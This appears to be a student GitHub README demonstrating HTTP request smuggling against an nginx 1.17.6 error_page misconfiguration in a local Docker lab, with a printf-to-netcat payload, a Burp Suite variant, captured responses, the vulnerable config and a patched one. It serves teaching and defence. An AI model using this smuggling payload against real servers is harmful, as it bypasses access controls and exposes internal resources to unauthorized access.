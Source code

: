 #                                         HTTP REQUEST SMUGGLING
#                        Donthamsetti Bala Murali Krishna (2148927) & Max Bateman (2042317) @Swansea.ac.uk
                       
#	HTTP REQUEST SMUGGLING:
The term HTTP request smuggling (HRS) refers to techniques that interfere with the way in which a website processes sequences of HTTP requests. 

Request smuggling vulnerabilities are considered critical because they allow threat actors to bypass security controls. The actor then gain unauthorized access to sensitive information and directly compromise other users

-> **Here will tro to get unauthorized access to internal server with the nginx vulnerable configaration** 

#	HTTP REQUEST SMUGGLING ON NGINX 

##	AFFECTED VERSION

Nginx 1.17.6

##	Usage

DEMONSTARTION PURPOSE.

###	HOW TO CONFIGURE 

```bash
$ git clone https://github.com/403accessdenied/HTTP-REQUEST-SMUGGLING
$ cd HTTP-REQUEST-SMUGGLING
$ docker-compose up -d
```


The nginx server will on the port 9095.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 302 Moved Temporarily
```

1 HTTP code 302 means all right! 

Enjoy!



##	Reproduce

### open linux terminal and paste the below command

```bash
printf 'GET /a HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Content-Length: 56\r\n'\
'\r\n'\
'GET /sensitive/index.html HTTP/1.1\r\n'\
'Host: attackerhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9095
```

 ###  you will get two responses as following.

```http
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive

successfully accessed my secret!
```
## Reproduce using **Burpsuite**

1. Open bursuite and  open firefox browser 
2. Open the url **127.0.0.1:9095** in the browser 
3. Intercept the request and send it to the repeater 
4. Now replace the intercepted request with the following request
 
```bash 
GET / HTTP/1.1
Host: 127.0.0.1:9095
Content-Length: 56

GET /sensitive/index.html HTTP/1.1
Host: attackerhost


```

![burp-request](https://user-images.githubusercontent.com/102154743/159486728-f7605d05-6724-4500-a091-fbe670f90402.png)

5. When you send the request we will get below response


![burp-response](https://user-images.githubusercontent.com/102154743/159486730-227653af-d594-450f-87a3-c6c0cda04c61.png)

6.Repeat the process untill we will get **Two response from server** as below


![burp-desync](https://user-images.githubusercontent.com/102154743/159486724-71df79ac-94ca-4ec8-a011-2e3967092bac.png)

# Patch
```
NGINX supports the ability to have the error_page handler change the resulting error page and error code
into a 302 redirect, as such:
error_page 401 https://example.org/;
Other forms of the error_page handler are NOT vulnerable:
error_page 404 /404.html;
error_page 404 @404;
```
### vulnerable configaration in *default.conf*
```bash
server {
 listen 80;
 server_name localhost;
 error_page 401 http://example.org;
 location / {
 return 401;
 }
}
server {
 listen 80;
 server_name attackerhost;
 location /sesitive/index.html {
 return 200 'successfully accessed my secret';
 }
}
```

### Patch for above configaration 
```
server {
 listen 80;
 server_name localhost;
 error_page 401 @401;
 location / {
 return 401;
 }
 location @401 {
 return 302 http://example.org;
 }
}

server {
 listen 80;
 server_name attackerhost;
 location /sesitive/index.html {
 return 200 'successfully accessed my secret';
 }
}
```
#	Reference

https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf
